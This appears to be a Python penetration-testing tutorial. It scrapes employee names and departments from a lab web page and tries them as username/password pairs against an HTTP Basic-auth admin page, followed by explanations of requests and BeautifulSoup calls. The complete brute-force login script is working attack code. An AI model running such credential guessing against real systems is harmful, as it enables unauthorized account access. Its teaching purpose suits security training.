



GET request + BeautifulSoup
Brute Force Login
In this example we are trying to brute force username and password in the page
http://172.16.120.120/admin.php" having collected informations about employees in the page
http://172.16.120.120
import requests
from bs4 import BeautifulSoup
def downloadPage(url):
r = requests.get(url) #GET request to the specified url
response = r.content
return response
def findNames(response):
parser = BeautifulSoup(response, 'html.parser')
names = parser.find_all('td', id='name')
output = []
for name in names:
output.append(name.get_text()) #use name.text is the same thing
return output
def findDepartments(response):
parser = BeautifulSoup(response, 'html.parser')
names = parser.find_all('td', id='department')
output = []
for name in names:
output.append(name.get_text())
return output
def getAuthorized(url, username, password):
r = requests.get(url, auth=(username, password)) #
if str(r.status_code) != '401':
print("\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n")
page = downloadPage("http://YOURPAGE") #change the url
names = findNames(page) #return a list
uniqueNames = sorted(set(names))
departments = findDepartments(page) #return a list
uniqueDepartments = sorted(set(departments))
print("... Working ... ")
for name in uniqueNames:
for department in uniqueDepartments:
getAuthorized("http://YOURPAGE/admin.php", name, department) #change the url
•
import requests requests(high-level URL opening) allows you to send HTTP/1.1 requests
extremely easily. More easily than the
http.client(low-level HTTP protocol client) package used before.
install it with: pip3 install requests
•
from bs4 import BeautifulSoup Beautiful Soup is a Python library for getting data out of HTML, XML,
and other markup languages.
To install Beautiful Soup there are different ways:
◇ apt-get install
python3-bs4
◇ easy_install3 beautifulsoup4
◇ pip3 install beautifulsoup4
•
r =
requests.get(url)
requests.get(url, params={key: value}, args)
→ to know more on the
parameter that we can pass to the get() method:
HERE; The get() method returns a
requests.Response object that contain the server's response of the
HTTP request
•
response = r.content requests.get(url).content
→ attribute of a
requests.Response object that returns the content of the response, in bytes
for more attributes and methods
of requests.Response objects:
HERE•
parser =
BeautifulSoup(response, 'html.parser') A parser is a software component that takes input
data (frequently text) and builds a data structure, this data structure in our case is a BeautifulSoup
object.
There are 4 parsers that we can use in conjunction with BeautifulSoup: html.parser, lxml, xml,
html5lib.
Each one with its advantages and disadvantages:
•
names = parser.find_all('td', id='name')
find_all() return an object(with inside the matching
parameters given) that we will can use for further searches or extract one of its contents.
◇ The
<tr> tag defines a row in an HTML table
◇
The
<td> tag defines the data contained in a cell in a HTML table
◇ The
id attribute specifies a unique id(within the HTML document) for an HTML
element
 •
output.append(name.get_text()) name.get_text() return the element's text and append it
in the output list
•
r = requests.get(url, auth=(username, password)) Providing
the credentials in a tuple like this: auth=(username, password)
is exactly the same as
auth=HTTPBasicAuth('username', 'password')
and is also more easy.
to know more about
authentication via requests library visit:
HERE•
if
str(r.status_code) != '401': A status code equals to 401 meaning an
Unauthorized Error, indicates
that the requested resource is restricted and requires authentication, but the client failed to provide a valid
one
•
uniqueNames =
sorted(set(names))
•
uniqueDepartments = sorted(set(departments))
set()
return an unordered collection of
unique elements while sorted()
return a new sorted list
{kind=link}